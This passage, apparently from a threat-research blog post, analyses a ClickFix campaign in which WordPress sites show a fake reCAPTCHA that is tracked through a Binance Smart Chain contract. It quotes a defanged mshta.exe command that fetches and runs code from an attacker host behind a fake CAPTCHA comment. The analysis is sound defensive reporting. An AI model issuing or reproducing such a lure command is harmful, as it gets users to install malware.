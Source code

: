 Figure 11 getCookie func

'getUserID' function attempts to retrieve an existing user Id from the "csj_id" cookie, if none exists, generating a new UUIDv4 and storing it in a cookie and returning it. It also maintain the same ID across browser sessions for 2 days.

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/87b874bbc601680cd8caa76f77d75688503271ff.png"
alt="AcomputerscreenwithtextAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AcomputerscreenwithtextAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 12 getUserID func

'generateUUIDv4' function generates a random UUID (Universally Unique Identifier) version 4 compliant with RFC 4122.

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/a7d1a80000839414994eee6107079fdeb3231d33.png"
alt="AcomputerscreenshotofanumberAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AcomputerscreenshotofanumberAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 13 generateUUIDv4 func

The 'isGoalReached()' function makes a call to a different Binance Smart Chain (BSC) contract address (0x7d0b5A06Fxxxxxxxxx) than the one mentioned earlier in this blog. This function checks whether the BSC contract has a record for the victim's UUID. If such a record exists, it means the victim has run the malicious command: "mshta.exe https\[:\]//check\[.\]bibyn\[.\]icu/gkcxv\[.\]google?i=xxxxxxxxxx \# Нυmаn, nоt а гοbоt: ϹΑРТСНА Ⅴегіfіϲаtіоп ΙD:xxxx" which was described at the beginning. As highlighted in the code, this function returns "True" or "False" based on whether the record is found. As seen in the 'stageClipboard()' function, 'isGoalReached()' is called every second. If 'isGoalReached()' returns "True," the function removes the fake reCAPTCHA and ClickFix windows, then displays the legitimate website contents. As mentioned earlier in this blog, the victim is prevented from interacting with the website until they complete the fake "reCAPTCHA" verification---that's how it works!

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/aae467f94610d53ddb79d1ecdfe218b5fbd7d85a.png"
alt="AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 14 isGoalReached func
